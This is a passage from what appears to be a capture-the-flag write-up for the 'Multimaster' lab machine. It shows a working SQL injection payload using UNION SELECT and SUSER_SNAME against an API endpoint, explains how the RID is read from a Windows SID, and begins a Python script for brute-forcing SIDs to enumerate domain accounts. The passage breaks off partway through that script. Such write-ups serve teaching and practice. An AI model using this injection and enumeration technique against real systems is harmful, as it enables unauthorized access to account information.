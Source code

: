 \[

 {

 "email": "4",

 "id": 1,

 "name": "2",

 "position": "3",

 "src": "0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000"

 }

\]

Of this number, the last 4 bytes are the RID in little endian format. That makes the RID for Administrator 0x01f4 which is 500. We will modify the script we wrote to do the brute force for us. Just to show the reverse side of this, getting a username from the SID, we can use the SID from Administrator as follows:

&gt; a' union select 1,2,3,4,SUSER\_SNAME\(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000\)-- -

\[

 {

 "email": "4",

 "id": 1,

 "name": "2",

 "position": "3",

 "src": "MEGACORP\\Administrator"

 }

\]

Modifying the code to create a new script to run through SIDs from 1000 upwards, we get the following code:

\#!/usr/bin/python3

import requests

import json

import struct

 RHOST = "http://multimaster.htb/api/getColleagues"

def get\_sid\(n\):

 domain\_sid = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'

 rid = struct.pack\('&lt;I', n\).hex\(\)

 return f"{domain\_sid}{rid}"
